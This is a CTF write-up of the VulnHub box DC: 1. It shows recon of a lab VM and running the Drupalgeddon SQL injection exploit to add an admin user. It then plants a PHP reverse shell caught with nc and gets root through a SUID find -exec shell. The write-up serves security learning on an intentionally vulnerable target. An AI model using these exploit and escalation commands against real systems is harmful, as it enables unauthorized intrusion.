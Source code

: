 ```yaml
---
title: "VulnHub | DC: 1 - Writeup"
excerpt: Writeup for DC:1 of DC series from VulnHub
date: 2019-07-09 00:00:00
categories: [cybersec, infosec, vulnhub]
tags: [dc, drupal, php, privilege escalation, reverse shell]
---
```


## Information
DC: 1 is the first box on the VulnHub series *DC* by [DCAU][DCAU]. There are 5 flags available but flags 1 through 4 
exist to give you hints on what to do next to capture the next flag. As a result, this writeup will only talk about how 
to capture the root flag only.

## Tasks
- Capture the root flag
 
## Summary
- Use `nmap` to see the services
- Use `droopescan` to see possible version(s) of Drupal
- Use `searchsploit` to find an exploit on Drupal and use it to gain admin control
- Implement a reverse shell by posting a new post and use `nc` to catch the reverse shell
- Spawn a proper shell with `python`
- Use `LinEnum` to find possible vulnerabilities in the system to escalate current privileges to `root`
 
## Walkthrough
### nmap
We begin with a pretty basic `nmap` scan to see what we're dealing with.

```
$ nmap -sC -sV 192.168.2.111
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
| ssh-hostkey:
|   1024 c4:d6:59:e6:77:4c:22:7a:96:16:60:67:8b:42:48:8f (DSA)
|   2048 11:82:fe:53:4e:dc:5b:32:7f:44:64:82:75:7d:d0:a0 (RSA)
|_  256 3d:aa:98:5c:87:af:ea:84:b8:23:68:8d:b9:05:5f:d8 (ECDSA)
80/tcp  open  http    Apache httpd 2.2.22 ((Debian))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Welcome to Drupal Site | Drupal Site
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42936/tcp  status
|_  100024  1          43799/udp  status
MAC Address: 18:D6:C7:B8:FD:A1 (Tp-link Technologies)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have `SSH` on Port 22, `HTTP` on Port 80 with Drupal installed on it and `RPC` on Port 111.

### Drupal
Taking a look at the HTTP, we're greeted with a pretty empty Drupal website.

![Drupal - Homepage][Drupal - Homepage]

Other than a login box, there is nothing helpful here; no version number, posts or such. As a result we have to gather 
more information regarding the system.

### Reconning and Exploiting Drupal
To gather information on Drupal, we'll use [droopescan][Droopescan].

```
$ pip install droopescan

$ droopescan scan drupal -u 192.168.2.111
[+] Themes found:                                                               
    seven http://192.168.2.111/themes/seven/
    garland http://192.168.2.111/themes/garland/

[+] Possible interesting urls found:
    Default admin - http://192.168.2.111/user/login

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Plugins found:
    ctools http://192.168.2.111/sites/all/modules/ctools/
        http://192.168.2.111/sites/all/modules/ctools/LICENSE.txt
        http://192.168.2.111/sites/all/modules/ctools/API.txt
    views http://192.168.2.111/sites/all/modules/views/
        http://192.168.2.111/sites/all/modules/views/README.txt
        http://192.168.2.111/sites/all/modules/views/LICENSE.txt
    image http://192.168.2.111/modules/image/
    profile http://192.168.2.111/modules/profile/
    php http://192.168.2.111/modules/php/
```

`droopescan` found us several possible versions for Drupal but once thing is certain; it's `7.2x`. With that in mind, 
we'll search `searchsploit` to find any known exploits we can use to gain admin access. There are over 40 known 
exploits regarding Drupal, but the most relevant 6 are displayed above. The most useful among those 6 is 
`Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)`; which adds an admin user via SQL injection. Since 
our version is `7.2x` this exploit will work on our version of Drupal.

```
$ searchsploit Drupal
-------------------------------------------------------------------------------
Exploit Title
-------------------------------------------------------------------------------
[...]

Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User)
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Admin Session)
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (1)
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (PoC) (Reset Password) (2)
Drupal 7.0 < 7.31 - 'Drupalgeddon' SQL Injection (Remote Code Execution)

[...] 
-------------------------------------------------------------------------------
```

```
$ wget https://www.exploit-db.com/download/34992

$ python2 34992 -t http://192.168.2.111 -u Arszilla -p password
[!] VULNERABLE!

[!] Administrator user created!

[*] Login: Arszilla
[*] Pass: password
[*] Url: http://192.168.2.111/?q=node&destination=node
```

### Getting a Reverse Shell
We've added `Arszilla` as an admin user with the password `password`. Once logging in we can see the posts, modules 
and other admin only content. By accessing `Modules` we can see currently installed modules and in that list we can 
see `PHP Filter`; which is disabled. After enabling it we edit its permissions it and allow `Administrator` to use it. 
Now we can go ahead and create a new post where we'll be implementing our reverse shell using [this][PHP Reverse Shell] 
PHP Reverse Shell script by [pentestmoney][pentestmonkey]. Do note that the text format must be set to `PHP Code` for 
this to work.

![Drupal - PHP Reverse Shell][Drupal - PHP Reverse Shell]

After creating our new post, we'll spawn `nc` to catch the shell once we visit the post.

```
$ nc -v -n -l -p 7500
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

### Logging in as Root
Now that we have a reverse shell, our first task will be to spawn a proper shell and then find any and all 
vulnerabilities in the system to login as `root` and access `/root`. We'll use `python` to import `pty` to spawn a 
proper shell and then use [LinEnum][LinEnum] to scan the system.

```
$ python -c 'import pty; pty.spawn("/bin/sh")'

$ cd /tmp

$ wget raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

$ chmod +x LinEnum.sh

$ ./LinEnum.sh
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################

[...]

### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget
/usr/bin/gcc
/usr/bin/curl

[+] Possibly interesting SUID files:
-rwsr-xr-x 1 root root 162424 Jan  6  2012 /usr/bin/find

[...]
```

`LinEnum` found an interesting `SUID` regarding `find`. A quick research reveals that `find` is vulnerable to `--exec` 
attack where an attacker can spawn a shell where they're `root`.

```
$ find /etc/passwd -exec /bin/sh \;

$ whoami
root

$ cd /root

$ ls -la
total 32
drwx------  4 root root 4096 Feb 28 12:11 .
drwxr-xr-x 23 root root 4096 Feb 19 22:34 ..
drwx------  2 root root 4096 Feb 19 22:30 .aptitude
-rw-------  1 root root   44 Feb 28 12:11 .bash_history
-rw-r--r--  1 root root  949 Feb 19 23:03 .bashrc
drwxr-xr-x  3 root root 4096 Feb 19 23:03 .drush
-rw-r--r--  1 root root  140 Nov 20  2007 .profile
-rw-r--r--  1 root root  173 Feb 19 23:43 thefinalflag.txt

$ cat thefinalflag.txt
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
```

Thus, we've gained captured the `root` flag in DC: 1.

[DCAU]:                         https://twitter.com/DCAU7
[Mr. Robot]:                    https://www.vulnhub.com/entry/mr-robot-1,151/
[Drupal - Homepage]:            /images/posts/2019-07-09-vulnhub-dc_1/Drupal%20-%20Homepage.png
[Droopescan]:                   https://github.com/droope/droopescan
[PHP Reverse Shell]:            http://pentestmonkey.net/tools/web-shells/php-reverse-shell
[pentestmonkey]:                http://pentestmonkey.net/
[Drupal - PHP Reverse Shell]:   /images/posts/2019-07-09-vulnhub-dc_1/Drupal%20-%20PHP%20Reverse%20Shell.png
[LinEnum]:                      https://github.com/rebootuser/LinEnum